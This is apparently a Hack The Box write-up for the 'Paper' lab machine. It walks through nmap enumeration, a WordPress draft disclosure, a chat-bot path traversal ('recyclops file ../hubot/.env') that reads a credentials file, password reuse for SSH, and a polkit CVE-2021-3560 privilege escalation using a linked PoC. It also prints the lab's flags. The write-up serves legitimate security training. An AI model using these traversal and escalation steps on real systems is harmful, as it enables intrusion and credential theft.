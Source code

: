 # Paper

## Enumeration

nmap:
```bash
┌──(kali㉿kali)-[~/Sec/HackTheBox/Machines/Paper]
└─$ nmap -sC -sV 10.10.11.143 -oA scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 14:02 EDT
Nmap scan report for 10.10.11.143
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.00 seconds
```

### Port 80

In head:
```html
<meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
<title>HTTP Server Test Page powered by CentOS</title>
```

`/cgi-bin` folder is present.

PHP Version: `PHP/7.2.24`.

Header: `X-Backend-Server: office.paper`.

Server: `Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9`.

When adding `office.paper` to `/etc/hosts`:

![](../../../../Attachments/Pasted%20image%2020220609143951.png)

Users found:
- prisonmike
- jan
- nick

Nick said: `Michael, you should remove the secret content from your drafts ASAP`.

WordPress version: `5.2.3`

## Exploitation

On Google: https://www.exploit-db.com/exploits/47690

On this link, drafts are disclosed: http://office.paper/?static=1

Secret found:

```bash
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Adding `chat.office.paper` to `/etc/hosts` show this page:

![](../../../../Attachments/Pasted%20image%2020220609150712.png)

Once logged in the chat, a bot is present, which can be DM'd:

```
recyclops file ../hubot/.env

-   Bot 3:18 PM
    
    <!=====Contents of file ../hubot/.env=====>
    
-   <!=====Contents of file ../hubot/.env=====>
    
-   export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
    export ROCKETCHAT_USER=recyclops  
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
    export ROCKETCHAT_USESSL=false  
    export RESPOND_TO_DM=true  
    export RESPOND_TO_EDITED=true  
    export PORT=8000  
    export BIND_ADDRESS=127.0.0.1
```

After a test: `dwight:Queenofblad3s!23` is a set of credentials.

`user.txt`: `8ef445c15fc077583aec9b7ba2aab2d3`

## Post-Exploitation

Using `linpeas.sh`,  a CVE seems to be usable:
```bash
╔══════════╣ CVEs Check                                                                                                                                                                                                                  
Vulnerable to CVE-2021-3560
```

Using this PoC: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh

Created a user and spawned a root shell.

`root.txt`: `d5a268920b8834ba615d44431e9b91fc`
